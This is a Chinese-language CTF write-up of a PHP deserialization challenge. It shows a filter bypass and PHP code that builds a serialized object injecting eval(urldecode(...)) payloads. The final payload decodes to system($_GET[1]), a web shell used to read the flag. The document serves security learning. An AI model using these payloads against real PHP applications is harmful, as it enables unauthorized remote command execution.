 ```php
}
?>

```

最开始想绕过对字母数字的过滤，构造 `("%01%01%01%04%01%01"|"%72%78%72%70%64%6c")("%04%01"|"%68%72")`，没法成功，应该是`check`将不可见字符过滤掉了。

后面发现上面的正则是个幌子。字母数字前后加了引号。所以我们可以直接通过如下payload绕过。

```php
<?php

class BSides {
    protected $option = "getFlag";
    protected $name = "admin";
    protected $note = 'eval(urldecode("%70%68%70%69%6e%66%6f%28%29%3b"))';

}

// echo urlencode("phpinfo();"),"\n";
$a = new BSides();
echo urlencode(serialize($a));
```

这样，引号与字母中间有一个 % ，就可以绕过了。本地是成功的，但是远程不成功。问题出在 check函数上。给的注释是：`//check nullbytes`。

![image-20210809150857060](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809150857060.png)



应该是将 protected 但序列化后的 %00 过滤掉了。所以我们在这里将 protected 改成 public，反序列化也是可以成功的。

```php
<?php

class BSides {
    public $option = "getFlag";
    public $name = "admin";
    public $note = 'eval(urldecode("%70%68%70%69%6e%66%6f%28%29%3b"))';

}

// echo urlencode("phpinfo();"),"\n";
$a = new BSides();
echo urlencode(serialize($a));
```

![image-20210809151137509](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809151137509.png)



```php
eval(urldecode("%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%31%5d%29%3b")) # system($_GET[1]);
```

在 /home 目录下找到 flag 文件。
